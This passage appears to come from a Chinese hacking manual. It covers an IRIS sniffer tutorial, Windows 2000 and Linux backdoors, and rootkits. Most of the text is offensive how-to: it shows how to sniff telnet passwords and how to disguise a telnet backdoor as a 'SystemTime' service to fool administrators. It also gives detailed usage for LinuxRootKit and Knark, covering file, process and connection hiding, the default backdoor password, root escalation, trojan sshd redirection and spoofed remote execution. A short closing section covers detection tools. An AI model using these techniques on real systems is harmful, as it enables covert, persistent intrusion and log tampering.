众所周知，TCP 提供一种面向连接的、可靠的字节流服务。也就是说一个普通的会话形式（例如下载网页），整个过程之前一定是建立了一个连接，会话结束再销毁这个连接。当两个主机建立了连接之后，互相之间才可以发送数据，直到连接中断。丢失或受损的数据包都会被重传。如有必要，进来的数据包会被重组，以便与原来的传输顺序匹配。顺序是按每个数据包中的序列号（sequence number）来维系的。每个被发送的字节，以及开放和关闭请求，均被单独标上不同的序列号。传统的 Sniffer 只是可以提供一个数据包序列号和信息的截获描述，给管理员一个关于这个会话的判断。而 IRIS 则远远超出了这一层次，软件可以重新组织 HTTP 协议中的数据，进行填充、着色，使得数据被还原成网页。当然这种功能也可以用在其他方面，例如重新构造 Email 的附件等。

##### 2. 对截获的数据进行解码

设置 DECODE 选项，如果你不熟悉请仔细看上面的文字。下面启动 DECODE 选项，只有我们打开 Decode > Enable Code Output 时，才能使解码进行。

这里主要由三个窗口组成：主机行为窗口（Host Activity）、查看会话窗口（Session Data）和会话列表窗口（Sessions View）。

- 1. 主机行为窗口（Host Activity）
  - 如图2-8-13所示。
  - 这个窗口把会话以树形排列，每一个小项代表一个服务（通常是使用同一个端口的协议）。当我们在这个窗口选择了一个服务（如图2-8-13），在数据列表窗口就会相应地显示出服务器和客户端的会话。
- 2. 查看会话窗口（Session Data）
  - 如图2-8-14所示。

这个窗口显示我们截获的每一会话的具体信息。在我们上面的图中，IRIS 截获了一个 HTTP 会话。你可以看到客户端发出的浏览请求和 Web 服务器的回应。下面我们介绍一下这个窗口主要的工具条选项的作用：

##### 表6

| 选项 | 功能描述 |
|---|---|
| （图标） | 你在这个选项下，可以单纯选择一个会话的客户端或服务端的数据。默认是双向的。 |
| （图标） | 可以使得会话以各种编码显示，可选择 HTML、ASCII、Packets 三种。其中 HTML 适合显示 Web 相关的会话，是默认格式。ASCII 是 8 Bit 的编码，不适合显示 HTML 的文档，适合显示 HTML 标签。Packets 显示数据包原来的形式。合理使用编码转换会使截获问题更好地理解被截包的内容。例如，当我们截获一个发送 mail 的数据包，当我们用 HTML 显示时 MAIL FROM: 和 RCPT TO 就不会被看见，当我们转换了编码 ASCII 后就可以正常显示了。 |
| （图标） | 得到会话的相关资源。 |

其它的功能很容易理解，例如查找指定字符等，读者可以自行操作。

##### 3. 会话列表窗口（Sessions View）

这个区域可以描述出你所截获会话的收发地址、端口、协议等。形式和截获数据包的窗口差不多，在这里不做赘述。我们截获了数据，经过以上步骤就可以使得数据包由抽象变得形象了。

## 四、监测连接状态

我们首先要在 Click Tools > Guard > Guard Settings 配置，在文章的前面可以找到相关配置。IRIS 还可以充当入侵监测装置，我们打开 Tools > Guard > Enable Guard 使其生效。打开 Tools > Guard > Show Guard Windows 开启监视窗口。如图 2-8-15 所示：


图2-8-15

主机 192.168.0.2 和 192.168.0.3 被 192.168.0.1 进行了端口扫描。

## 五、建立过滤策略

一般情况下，IRIS 不再需要其他设置；不过如果你想彻底地研究一下网络数据，那么以下的这些设置你有必要知道一下。这样有助于你提高工具使用效率。我们找到菜单栏中 Filters > Edit Filter 就可以进行过滤器的配置。这里有如下功能：

### 1. 硬件过滤器（HardWare Filter）

如图 2-8-16 所示：


图2-8-16

##### 表1

| 选项 | 功能描述 |
|---|---|
| Promiscuous（嗅查模式） | 使得网卡处于杂收状态，这是默认状态。 |
| Directed（直接连接） | 只接受发给本网络配置器的数据包，而其他的则不予接受。 |
| Multicast（多目标） | 捕获多点传送的数据包。 |
| All multicast（所有多目标） | 捕获所有的多目标数据包。 |
| Broadcast（广播） | 只捕获广播帧，这样的帧都具有相同的特点，目的 MAC 地址都是 FF:FF:FF:FF:FF:FF。 |

其它的还有：Functional、Mac Frame、Source Routing、Group、Smt、All Functional 等都不常见，这里不做叙述。

##### 2. 数据包捕获类型匹配（Layer 2，3）

这个过滤设置位于 OSI 七层模型中的第二、三层——网络层和运输层。网络层在 TCP/IP 协议族中，网络层协议包括 IP 协议（网际协议）、ICMP 协议（Internet 互联网控制报文协议），以及 IGMP 协议（Internet 组管理协议）。而运输层在 TCP/IP 协议族中，有两个互不相同的传输协议：TCP（传输控制协议）和 UDP（用户数据报协议）。

如图 2-8-17 所示：

图 2-8-17 中，我们指定要截获 TCP 和 UDP 协议的数据包。


图2-8-17

在这里我们也可以自定义协议类型，方法是配置 proto.dat 文件。Layer 2 的协议编辑 [PROTOCOL]，而 Layer 3 则编辑相应的 [IP PROTOCOL]。我们用记事本打开 proto.dat，在这里很多的协议可以被修改和添加。

例如在第 4573 行中显示 1001–100F Berkeley Trainer。

这就意味着 1001、1002、1003...100F 等值就会被解码成 Berkeley Trainer。更改这个值，重新启动 IRIS，配置将发生变化。

##### 3. 特定字符匹配（Words Filter）

该选项可以对截获的数据包内容进行关键字过滤，如图 2-8-18 所示：


图2-8-18

加入你想过滤的关键字符到列表。列表下面有 AND 和 OR 两个选项，其中 OR 是指数据包至少要匹配列表中的一个关键字符，而 AND 选项是指所有列表中的数据都要匹配才会显示出来。

其中选项 Apply filter to packets 是指显示带有关键字的数据帧，而其他的数据帧则会被抛弃。而选项 Mark sessions containing words 是指所有的数据帧都会被截获，只不过带有指定字符的数据帧会加上标志。

##### 4. MAC 地址匹配（MAC Address Filter）

这一层是硬件 MAC（Media Access Control）地址匹配层。如图 2-8-19 所示：


图2-8-19

第一个窗口是 IRIS 可识别出来的硬件地址。你可以点击这些地址把它们加到下边的 Address 1 或 Address 2，如果你不这样做也可以自己输入地址到窗口 2 中。

##### 5. IP 地址匹配层（IP Address）

和上边的选项相类似，这个是 IP 地址匹配层。如图 2-8-20 所示，这里窗口 1 中显示了本地地址 192.168.0.1 和广播地址，其中 Address Book 是我们前面配置的地址簿，这里不再赘述。这部分比较容易理解。

##### 6. 端口匹配层（Ports）


图2-8-20

每个 FTP 服务器的 TCP 端口号都是 21，每个 Telnet 服务器的 TCP 端口号都是 23，每个 TFTP（简单文件传送协议）服务器的 UDP 端口号都是 69。任何 TCP/IP 实现所提供的服务都用知名的 1～1023 之间的端口号。这一层位于 OSI 七层中的应用层，对于我们想截取特定的网络服务中的数据包，这个层次的配置是很有用处的。例如我们想截获 telnet 中的用户名和密码，这里我们就应该选择 23 Port。

配置界面如图 2-8-21 所示：


图2-8-21

这里我们选择了 telnet、ftp 和 http 三种端口进行截获。端口号分别显示在左边的列表框里，而右边则对应着被选框。

我们也可以通过配置文件 proto.dat 自行添加、删除、更改端口号列表。例如：我们想添加 Windows 2000 终端服务到列表框中，则在文件 proto.dat 里面找到 [TCP PORTS] 选项，添加 3389 Terminal Server 到 3333 DEC-NOTES 和 3421 BMAP 之间，重新启动 IRIS 则可以使配置生效。

##### 7. 高级选项配置（Advanced）

这里只有两个选项供使用者配置，如图 2-8-22 所示：

数据大小匹配选项（Size）：可以选择指定接收的数据包的大小，如图这个过滤器只接收大于 58 字节的数据包。

十六进制数据匹配（Data）：指定数据包中所包含数据的十六进制字符相匹配。

到这里过滤器我们就讲解完毕了，做好相应的过滤策略点击 OK 即可生效。

## 六、统计网络数据

管理员使用者工具可以统计网络的流入流量、流出流量、总流量、流入数据包统计和流出数据包统计。软件会给管理员各种很直观的分析图，或是生成很详尽的报告。由于这里不是我们的重点，所以我们只给出两个分析图给大家一个总体的介绍。如图 2-8-23、图 2-8-24 所示：


图2-8-22


图2-8-23


图2-8-24

说明：其中图 8 是显示各个时段数据的流量，图 9 是各个协议流入的数据流量。要想得到更多的报告文档，可以 View > [Protocol Distribution、Top Hosts、或者 Size Distribution]。

#### 七、总结

Iris 是一个网络协议分析工具，对于管理员分析网络协议和初学者学习网络知识很有用处。不过这个功能强大的工具很有可能被黑客利用，做一些危害网络的事情。希望大家铭记：己之不欲，勿施于人。

## 第3章 后门配置与隐藏

### 3.1 Windows 2000 下改 telnet 做后门

现在，Windows 2000 的漏洞很多，入侵一个 Windows 2000 的机器也相对容易，想保留果实有很多的办法。建立后门就是很常见的手段。利用 Windows 2000 自身的 telnet 就很简单，当然要经过加工，不然很容易被看出来。

- 步骤如下：
  - 1. 去掉 NTLM 认证，可以改注册表，也可以利用 ntlm.exe。
  - 2. 将 telnet 服务以其他服务的形式打开，用 nt 工具箱中的 instsrv.exe。
  - 3. 改 telnet 服务的端口，利用 tlntadmn.exe。

步骤一中改注册表项是将：

`HKEY_LOCAL_MACHINE->SOFTWARE->Microsoft->TelnetServer->1.0->NTLM` 键值由 `0x00000002(2)` 变成 1 或 0。

- 0：代表不使用 NTLM 身份验证，而使用输入用户名/密码的方式验证。
- 1：代表先尝试 NTLM 身份验证，如果失败，再使用用户名/密码的方式进行验证。
- 2：代表只使用 NTLM 身份验证。

所用工具：regdmp.exe & regini.exe，前者导出注册表，后者写回注册表。我比较喜欢直接用 ntlm.exe 搞定。

步骤二：先看看 instsrv 的提示

```text
Installs and removes system services from NT

INSTSRV <service name> (<exe location> | REMOVE)
    [-a <Account Name>] [-p <Account Password>]
Install service example:
    INSTSRV MyService C:\MyDir\DiskService.Exe
    -OR-
    INSTSRV MyService C:\mailsrv\mailsrv.exe -a MYDOMAIN\joebob -p foo
Remove service example:
    INSTSRV MyService REMOVE
```

不用我多解释，直接：instsvr SystemTime c:\winnt\system32\tlntsvr.exe（把 telnet 服务程序以 SystemTime 服务来运行！！默认是 telnet，这里要改成你认为能骗过 admin 的名字）

步骤三：看看 tlntadmn.exe 的输出：

```text
Microsoft (R) Windows 2000 (TM) (内部版本号 2195)
Telnet Server Admin (Build 5.00.99201.1)

请在下列选项中选择一个：
(0) 退出这个应用程序
(1) 列出当前用户
(2) 结束一个用户的会话 ...
(3) 显示/更改注册表设置 ...
(4) 开始服务
(5) 停止服务
请输入一个选项的号码(0－5)以选择该选项：——当然是选择3

请在下列选项中选择一个：
(0) 退出这个菜单
(1) AllowTrustedDomain
(2) AltKeyMapping
(3) DefaultDomain
(4) DefaultShell
(5) LoginScript
(6) MaxFailedLogins
(7) NTLM
(8) TelnetPort
请输入一个选项的号码 (0－8) 以选择该选项：——当然是选择8
TelnetPort 的当前值 = 23
你确实想更改这个值吗？[y/n] －－－－－y
TelnetPort [ 当前值 = 23; ]：－－－－－7(我喜欢7这个端口)
你确实想将 TelnetPort 设置为：7？[y/n]－－－－－y
只有当 Telnet 服务重新开始后设置才会生效
启动我们的 telnet 服务，别忘了是 SystemTime, net start SystemTime 一切 OK!
telnet remotehost 7
```

### 3.2 后门工具包——rootkit

在网络安全领域里有一种特殊的程序叫做 rootkit，但是如果你把 rootkit 按照字面意思理解为管理员工具包那可就大错特错了，其实它是供黑客隐藏自身踪迹以及方便管理肉鸡的工具集合。一般来说，不同的操作系统上都有不同的 rootkit 软件，本文重点介绍 Linux 系统中的 rootkit 原理、分类、典型软件包以及如何防范 rootkit，其他操作系统的 rootkit 将在以后陆续介绍。

## 一、什么是 rootkit

一般黑客在攻破一台主机并获取最高权限之后，都会在主机上留下后门，以便将来可以继续访问该主机或者控制该主机攻击其他计算机。因此，怎样留下稳定而且隐蔽性好的后门就成了攻击者需要研究的一个重要问题。如果只是留下一个简单的 bindshell 后门的话，管理员很容易通过后门程序的进程信息以及所开放的端口信息发现该后门。这对于攻击者来说是非常危险的，因为这不仅意味着攻击者的踪迹已经暴露、所获得的权限可能丢失，而且管理员有可能伪造一个假后门来等着逮你，当你悠然自得访问自己以前留的后门时，可能已经落入了“敌人”的圈套了。

所以对于攻击者来说，需要更为隐秘的后门，rootkit 就是帮助攻击者用来隐藏自己的踪迹和保留 root 访问权限的黑客工具包。rootkit 不仅仅是后门程序，它一般分为后门程序以及隐藏程序两个部分，其中后门程序用来留下后门供黑客再次访问的权限；隐藏程序用来隐藏后门程序的信息，例如进程和端口等。有的比较全面的 rootkit 包还包括清除系统日志以及 Sniffer 等持续再攻击的工具。

## 二、rootkit 的分类

在现有的 rootkit 工具中，按照程序本身的工作原理，一般可以分为两类：特洛伊 rootkit 和内核级 rootkit。

特洛伊 rootkit 是指攻击者用特殊的程序替换掉系统原有的某些程序，以达到隐藏自身、安装后门以及继续收集信息等功能的 rootkit。Linux 下有一个专门的特洛伊工具包叫做 LinuxRootKit，本文将在后面详细介绍该工具包。

内核级 rootkit 则是指利用 LKM 的某些特性修改系统内核以达到隐藏的目的。所谓 LKM，就是 Loadable Kernel Modules 的简称，即可加载内核模块，这些模块本来是 Linux 系统用于扩展自身功能的。使用 LKM 的优点有：它们可以被动态地加载，而且不需要重新编译内核。Linux 下常见的内核级 rootkit 有 Knark、Adore 等，本文后面将会详细介绍 LKM 的基础知识以及 Knark 工具包。

## 三、LinuxRootKit 工具包简介

LinuxRootKit 是由数十个小程序组成的木马工具包，目前已经发展到了 4.0 版本。攻击者使用 LinuxRootKit 中的相关程序替代系统原来的 ps、ls、netstat 和 id 等程序，使系统管理员无法通过这些工具发现攻击者的踪迹。例如替换了 ls 后，就可以隐藏指定的文件，使得管理员在使用 ls 命令时无法看到这些文件，从而达到隐藏自己的目的。

LinuxRootKit 主要包含下列文件：

- bindshell：开一个端口的 shell 后门；
- chfn：运行之后获得 root 权限；
- chsh：运行之后获得 root 权限；
- crontab：crontab 程序的木马版本；
- du：du 程序的木马版本，用于隐藏文件；
- find：find 程序的木马版本，用于隐藏文件；
- fix：修改文件工具；
- ifconfig：木马，用于隐藏 Sniffer；
- inetd：木马，用于获得远程权限；
- killall：木马，避免杀掉隐藏的进程；
- linsniffer：一个包过滤 Sniffer；
- login：木马，用于获得远程权限；
- ls：木马版本，用于隐藏文件；
- netstat：木马版本，用于隐藏连接；
- passwd：木马，用来获得 root 权限；
- pidof：木马，用来隐藏进程；
- ps：木马，用来隐藏进程；
- rshd：rsh 木马，用于获得远程权限；
- sniffchk：用于检查 Sniffer 是否运行的工具；
- syslogd：木马，用于隐藏日志记录；
- tcpd：tcpwrapper 木马，用来突破 IP 限制；
- top：木马，用来隐藏进程；
- wted：用于清除 wtmp/utmp 日志；
- z2：用于清除 utmp/wtmp/lastlog 日志。

##### 1. 功能简介

以上文件中有一些是为了隐藏攻击者信息的，如：

ls、find、du 这些程序会阻止显示攻击者的文件以及计算攻击者文件占用的空间。在编译之前，攻击者可以通过 ROOTKIT_FILES_FILE 设置自己的文件所处的位置，默认是 /dev/ptyr。注意：如果在编译时使用了 SHOWFLAG 选项，就可以使用 ls -/ 命令列出所有的文件。这几个程序还能自动隐藏所有名字为 ptyr、hack.dir 和 W4r3z 的文件。

ps、top、pidof 这几个程序用来隐藏所有和攻击者相关的进程。  
netstat 用来隐藏出/入指定 IP 地址或者端口的网络数据流量。  
killall 不会杀死被攻击者隐藏的进程。  
ifconfig 如果攻击者启动了嗅探器，这个程序就阻止 PROMISC 标记的显示，使系统管理员难以发现网络接口已经处于混杂模式下。  
crontab 隐藏有关攻击者的 crontab 条目。  
tcpd 阻止向日志中记录某些连接。  
syslogd 过滤掉日志中的某些连接信息。

以上文件中还有一些木马程序为本地用户提供后门，包括：

chfn 用来提升本地普通用户权限的程序。运行 chfn，在它提示输入新的用户名时，如果用户输入 rootkit 密码，他的权限就被提升为 root。默认的 rootkit 密码是 satori。  
chsh 也是一个提升本地用户权限的程序。运行 chsh，在它提示输入新的 shell 时，如果用户输入 rootkit 密码，他的权限就被提升为 root。  
passwd 和上面两个程序的作用相同。在提示你输入新密码时，如果输入 rootkit 密码，权限就可以变成 root。

login 允许使用任何账户通过 rootkit 密码登录。如果使用 root 账户登录被拒绝，可以尝试一下 rewt。当使用后门时，这个程序还能够禁止记录命令的历史记录。

另外一些是木马网络监控程序，这些程序为远程用户提供后门，可以向远程用户提供 inetd、rsh、ssh 等服务，具体因版本而异。随着版本的升级，LinuxRootKit 4 的功能也越来越强大，特征也越来越丰富。一般包括如下网络服务程序：

inetd 是一个特洛伊 inetd 程序，为攻击者提供远程访问服务。  
rshd 为攻击者提供远程 shell 服务。攻击者使用 rsh -l rootkitpassword host command 命令就可以启动一个远程 root shell。  
sshd 为攻击者提供 ssh 服务的后门程序。

所有不属于以上类型的程序都是工具程序，它们实现诸如日志清理、报文嗅探以及远程 shell 的端口绑定等功能，包括：

fix 是一个用来伪造文件属性的程序。  
linsniffer 是一个报文嗅探器程序。  
sniffchk 是一个简单的 bash shell 脚本，检查系统中是否正有一个嗅探器在运行。  
wted 用来编辑 wtmp/utmp 日志的编辑程序。你可以使用这个工具编辑所有 wtmp 或者 utmp 类型的文件。  
z2 也是 utmp/wtmp/lastlog 日志清理工具，可以删除 utmp/wtmp/lastlog 日志文件中有关某个用户名。的所有条目。不过，如果用于 Linux 系统需要手工修改其源代码，设置日志文件的位置。Bindshell 用来在某个端口上绑定 shell 服务，默认端口是 12497，为远程攻击者提供 shell 服务。

##### 2. 具体使用方法

LinuxRootKit 的安装方法非常简单，只需要在 LinuxRootKit 目录下执行命令 `make all install` 即可。如果是安装了 shadow 的系统，则应该运行 `make shadow install` 来进行安装，但在安装之前，你应该首先具有 root 权限。

其中 ls、du、find 等几个程序用于隐藏文件，你首先必须建立一个 `/dev/ptyr` 文件，然后把要隐藏的文件名放入其中。例如，如果要隐藏一个名为 hacktool 的文件，就使用 `echo hacktool>>/dev/ptyr` 命令把这个文件名加入 `/dev/ptyr` 文件当中，这样，无论谁使用 ls 等命令都无法看到 hacktool 文件了。

而 ps、top、pidof 等几个程序用于隐藏进程。同隐藏文件的方法相似，如果要隐藏进程首先需要建立一个 `/dev/ptyp` 文件。LinuxRootKit 提供了 4 种隐藏进程的方法：

- `0`：隐藏所有 uid 为 0 的进程
- `p0`：隐藏所有 tty0 终端上的进程
- `Sniffer`：隐藏所有名为 Sniffer 的进程
- `hack`：隐藏所有名字中包含“hack”字符串的进程

假设我们要隐藏所有包含“hack”的进程，就用 `echo 3 hack>>/dev/ptyp` 命令写入 `/dev/ptyp` 文件。这样当管理员使用 ps 等命令查看进程时，就无法看到 hackscan、hacklog 等正在运行的程序了。

netstat 用于隐藏连接，它的设定文件为 `/dev/ptyq`，共有 6 种隐藏连接的方法：

- `500`：隐藏所有 uid 为 500 的连接
- `128.31`：隐藏所有来自 128.31.x.x 网络的连接
- `128.31.9.2`：隐藏所有连向 128.31.9.2 的连接
- `8000`：隐藏所有来自 8000 端口的连接
- `6667`：隐藏所有连向 6667 端口的连接
- `.term/.socket`：隐藏所有包含 `.term/.socket` 路径的 UNIX 套接字

syslogd 用于隐藏系统日志记录，当向 `/dev/ptys` 文件当中写入字符串的时候，就可以避免在系统日志中对包含此字符串的事件进行记录了。

LinuxRootKit 中其他程序的用法比较简单，这里不再一一介绍了。需要注意的是，LinuxRootKit 的默认配置都可以在 rootkit.h 中进行，其中最关键的一项是密码。当使用其中的大部分后门时都可以使用这个密码来快速获得权限，如果不进行设置，rootkit.h 就会使用默认的密码 satori。想要设置自己的密码，你应该修改下面一项：

```c
#define ROOTKIT_PASSWORD "satori"
```

而如果想要修改隐藏进程、文件、地址、端口等信息的文件，则应该分别修改下面几项：

```c
/* Processes to hide */
#define ROOTKIT_PROCESS_FILE "/dev/ptyp"
/* Addresses to hide */
#define ROOTKIT_ADDRESS_FILE "/dev/ptyq"
/* Files and directories to hide */
#define ROOTKIT_FILES_FILE "/dev/ptyr"
/* Log entries to hide */
#define ROOTKIT_LOG_FILE "/dev/ptys"
```

其中还有一项：

```c
#undef SHOWFLAG
```

这个选项用特殊的标记来显示出隐藏的文件，在命令后面加一个“/”就可以显示出来隐藏的文件。如果你需要该选项，则把它改为：

`#define SHOWFLAG`

最后一个选项：

`#define TAB_NAME "/dev/hda02"`

用来定义替换的 crontab 文件，你同样可以按照自己的需求来进行修改。不要忘了，修改完这些选项之后，要重新使用 `make all install` 来进行编译安装，这样才能够使你的设置生效。

##### 3. 编程原理简介

特洛伊 rootkit 的原理是很简单的，就是在系统原有的程序源代码中进行修改，把要隐藏或者有特殊需求的地方进行修改。下面以 ls 为例进行简单的介绍。

ls 的源代码在 rootkit 目录下的 `fileutils-3.13/src/ls.c` 文件，其中进行修改的主要部分有以下几处：

```c
/*+ HACK Read in list of files to block +*/
h_tmp=(struct h_st *)malloc(sizeof(struct h_st));
hack_list=h_tmp;

if (fp_hack=fopen(FILENAME, "r")) {
    while (fgets(tmp_str, 126, fp_hack)) {
        h_tmp->next=(struct h_st *)malloc(sizeof(struct h_st));
        strcpy(h_tmp->filename, tmp_str);
        h_tmp->filename[strlen(h_tmp->filename)-1]='\0';
        h_tmp=h_tmp->next;
    }
    fclose(fp_hack);
}
h_tmp->next=NULL;
```

这段程序是黑客加入的，它用来把要隐藏的文件列表从指定文件中读出来，保存在一个已经定义好的单向链表 h_tmp 中，以便在后面隐藏这些文件。然后在后面的 gobble_file() 函数中进行隐藏：

```c
/* HACK MASK OUT FILES */
if (!showall) {
    for (h_tmp=hack_list; h_tmp->next; h_tmp=h_tmp->next)
        if (!(strcmp(name, h_tmp->filename)))
            return 0;

    /* More kludge -- bleah */
    if (!(strcmp(name, h_tmp->filename)))
        return 0;
}
```

把要显示的文件名 name 同前面读出来的要隐藏的文件名链表中的文件名进行比较，如果 name 是要隐藏的文件，则返回 0，这样就隐藏了该文件。

可以看到，利用特洛伊 ls 隐藏文件的方法就是这样简单，其他的隐藏进程、端口等信息的方法和 ls 基本相同，都是修改了部分系统程序的源代码，从而达到隐藏的目的。

## 四、内核级 rootkit 工具包 Knark 简介

LKM 是 Linux 系统一种可以动态加载的内核模块，一般一些驱动程序使用 LKM，以便在不重新编译系统内核的情况下能够对内核空间以及硬件进行操作。内核级 rootkit 就是一种使用 LKM 来实现隐藏的 rootkit。它作为内核的一部分运行，因此会比传统技术更加强大，更加不易被发现。内核级 rootkit 一旦被安装运行到目标机器上，系统就会完全被控制在攻击者手中。其原理就是通过伪造一些系统调用，实现进程的隐藏/重现、目录的隐藏/重现、控制进程的验证以及后门的隐藏等功能。由于 LKM 编程技术比较复杂，本文就不作介绍了。下面介绍一个典型的 LKM 工具包 Knark。

Knark 是典型的基于 LKM 技术的 rootkit 后门工具包。Knark 是由一名叫 Creed 的黑客编写的，主要基于 Runar Jensen 编写的代码 heroin.c，设计思想主要来自于 Phrack 52 中 plaguez 发表的文章“Weakening the Linux Kernel”。在重新编写了 heroin.c 的大部分代码以后，Creed 决定重新命名为 Knark，在瑞典语中是指吸毒者。

Knark 的第一个公开版本是 0.41，发布于 1999 年 6 月。随后 0.50 和 0.59 被发布，当前的最新版本是 0.59。本文的介绍全部基于 0.59 版。

- 隐藏或显示文件或目录；
- 隐藏 TCP 或 UDP 连接；
- 程序执行重定向；
- 非授权地用户权限增加（rootme）；
- 改变一个运行进程的 UID/GID 的工具；
- 非授权地：特权程序远程执行守护进程；
- 隐藏运行的进程。

联合使用程序执行重定向和文件隐藏，攻击者能提供各种后门程序执行。由于执行重定向是在内核级别进行的，因此，文件检测工具不会发现程序文件被修改——原始的执行程序并没有被修改，因此配置检测工具在路径环境中也不会发现任何异常。

如果 Knark 结合另外一个用来隐藏系统当前加载的模块的 LKM 工具 modhide，就可能实现甚至通过 lsmod 命令也不能发现 knark 的存在。

### 1．安装

Knark 软件包的安装和使用也是非常简单的，该软件包的核心软件是 knark.c，它是一个 Linux LKM 模块。运行 make 命令来编译 knark 软件包，并通过 insmod knark 命令来加载该模块。当 knark 被加载，隐藏目录 `/proc/knark` 被创建，该目录下将包含以下文件：

- `author`：作者自我介绍；
- `files`：系统中隐藏文件列表；
- `nethides`：在 `/proc/net/[tcp|udp]` 隐藏的字符串；
- `pids`：被隐藏的 pids 列表，格式类似于 ps 命令输出；
- `redirects`：被重定向的可执行程序入口列表。

### 2．详细功能介绍

该软件包编译以后将有下面这些工具软件，它们都依赖于被加载的模块 knark.o：

`hidef` 用于在系统中隐藏文件。在 `/usr/lib` 目录下创建子目录 hax0r，然后运行命令 `./hidef /usr/lib/.hax0r`，则该目录会被隐藏，ls 或 du 等命令都不能显示该目录及其子目录。

`unhidef` 用来恢复被隐藏的文件，你可以通过访问 `cat /proc/knark/files` 来察看你隐藏了哪些文件；通过 `./unhidef /usr/lib/.hax0r` 命令来解除对隐藏文件的隐藏。但这里有个小小的 bug，使得被隐藏的目录在 `/proc/knark/files` 中显示的是其加载开始的路径，也就是说，如果系统有一个文件系统加载在 `/mnt`，你隐藏了 `/mnt/secret`，则在 `/proc/knark/files` 中显示的被隐藏的目录为 `/secret`。因此不会影响根文件被隐藏的目录。

ered 用来配置重定向程序的执行。拷贝特洛伊木马版本的 sshd 为 `/usr/lib/.hax0r/sshd_trojan`，然后运行 `./ered /usr/local/sbin/sshd /usr/lib/.hax0r/sshd_trojan`，这样当 `/usr/local/sbin/sshd` 被运行时，实际上运行的是特洛伊木马版本的 sshd。可以通过命令 `./ered -c` 来清除所有的可执行程序重定向。

nethide 用来隐藏 `/proc/net/tcp` 和 `/proc/net/udp` 中的某些字符串。netstat 命令就不会得到指定的链接信息。通过命令 `/nethide ":XXX"` 可以隐藏和端口号 XXX（十六进制）相关的连接（43981 dec）。也就是对 `/proc/net/[tcp|udp]` 读取时进行 grep -v 操作。你必须理解使用该程序从 `/proc/net/[tcp|udp]` 得到的输出的意义。假设系统运行有 sshd，那么连接到本地 22 端口以后，运行 netstat -at，则输出可能包含：

```text
Proto Recv-Q Send-Q Local Address Foreign Address State
tcp 0 0 localhost:ssh localhost:1023 ESTABLISHED
```

现在我们来检测文件 `/proc/net/tcp`：

`cat /proc/net/tcp`

则输出可能包含如下内容：

```text
local_address rem_address blablabla...
0: 0100007F:0016 0100007F:03FF 01 00000000:00000000 00:00000000 00000000
```

若我们希望隐藏和地址 127.0.0.1 相关的任何信息，我们必须使用如上面所示的十六进制的格式。因此，如果希望隐藏地址 127.0.0.1 的 22 号端口相关的内容，就要使用 `0100007F:0016` 来标识该链接。因此，`/nethide "0100007F:0016"` 将隐藏 to/from localhost:22 相关的链接信息。`/nethide ":XXX"` 用来去除隐藏。

rootme 用来实现非特权用户获得 root 访问权限。`./rootme /bin/sh` 就可以实现以 root 身份运行 `/bin/sh`。`./rootme /bin/ls -l /root` 则是仅仅以 root 身份运行单个命令。

taskhack 用来改变某个运行着的进程的 uid 和 gid。`./taskhack -alluid=0 pid`，该命令将进程 pid 的所有 uid（uid，euid，suid，fsuid）置为 0（root）。

```text
ps aux | grep bash
creed 91 0.0 1.3 1424 824 1 S 15:31 0:00 -bash
```

现在来改变该进程的 euid 为 0：

```text
./taskhack -euid=0 91
ps aux | grep bash
root (!) 91 0.0 1.3 1424 824 1 S 15:31 0:00 -bash
```

rexec 用来远程执行 knark-server 的命令：

`./rexec www.microsoft.com haxored.server.nu /bin/touch /LUDER`

这命令将从 `www.microsoft.com:53` 发送一个伪装的 UDP 数据包到 `haxored.server.nu:53`，来运行 `haxored.server.nu` 的命令 `/bin/touch /LUDER`。

## 五、如何防范 rootkit

rootkit 的最大危害性在于一旦被安装在系统当中，管理员就很难通过正常的方法发现它的存在。一般等到管理员发现系统存在异常时，系统已经崩溃或者硬盘被撑满。是不是 rootkit 就不能被发现了呢？当然不是，只要管理员有足够的防范措施以及安全意识，还是有可能发现 rootkit 的。下面就介绍几种防范以及发觉 rootkit 的方法。

对于特洛伊 rootkit，一般可以采用文件完整性检测的方法，在操作系统最初安装的时候，使用 tripwire 等工具对系统文件进行记录。tripwire 是一套有关数据和网络完整性保护的工具，主要是检测和报告系统中任意文件被改动、增加、删除的详细情况，可以用于入侵检测、损失的评估和恢复、证据保存等多个用途。这样只要定期检查系统文件的完整性，就可以有效地发现特洛伊 rootkit。

对于内核级 rootkit，可以使用 kstat 来进行检测。这个软件是 http://s0ftpj.org/ 这个组织中的成员开发的，kstat 用于对内核模块的检查，以判断是否有入侵者插入的恶意后门。由于现在的内核模块已经对文件、进程等进行隐藏，从而对一些二进制文件、系统完整性看起来没有太多的改变，因此要检查；kstat 的做法是从 `/dev/kmem` 中来读取相应数据并分析判断，因此它的判断相对来说要准确得多。一般用 `kstat -s` 就可以看到哪些系统调用是被修改过的，如果其中显示 WARNING，那就表明系统已经被安装了使用 LKM 的 rootkit。

以上检测 rootkit 的方法都是通过手工来完成的，这对于管理大量主机的网管来说就是很繁重的工作量了。所以，我们还可以通过一个名为 chkrootkit 的工具来自动检测。

顾名思义，chkrootkit 就是用来检查 rootkit 是否存在的一种便利工具。截至目前为止，最新版本是 0.36，它可以检测出目前大多数的 rootkit；其中既包括特洛伊 rootkit，也包括内核级 rootkit。

使用 `tar xvzf chkrootkit-0.xx.tar.gz` 进行解压，然后进入 chkrootkit 目录进行编译 `make sense`。之后运行：

```bash
./chkrootkit > chk.lst
```

再检查 `chk.lst` 这个文本文件，就可以看到是否检测到任何 rootkit 了。

### 3.3 详解端口进程关联工具

#### 一、了解端口的作用

首先需要明白的一点是，我们这里所说的端口，不是计算机硬件的 I/O 端口，而是软件形式上的概念。服务器可以向外提供多种服务，比如，一台服务器可以是 WEB 服务器，也可以是 FTP 服务器，同时，它也可以是邮件服务器。为什么一台服务器可以同时提供那么多的服务呢？其中一个很主要的方面，就是各种服务采用不同的端口分别提供不同的服务，比如：WEB 采用 80 端口，FTP 采用 21 端口等。这样，通过不同端口，计算机与外界进行互不干扰的通信。

根据提供服务类型的不同，端口分为两种，一种是 TCP 端口，一种是 UDP 端口。计算机之间相互通信的时候，分为两种方式：一种是发送信息以后，可以确认信息是否到达，也就是有应答的方式，这种方式大多采用 TCP 协议；一种是发送以后就不管了，不去确认信息是否到达，这种方式大多采用 UDP 协议。对应这两种协议的服务提供的端口，也就分为 TCP 端口和 UDP 端口。

- 常见的 TCP 端口如下：（图3-3-1）
- 常见的 UDP 端口如下：（图3-3-2）

### 二、端口进程关联察看器的作用

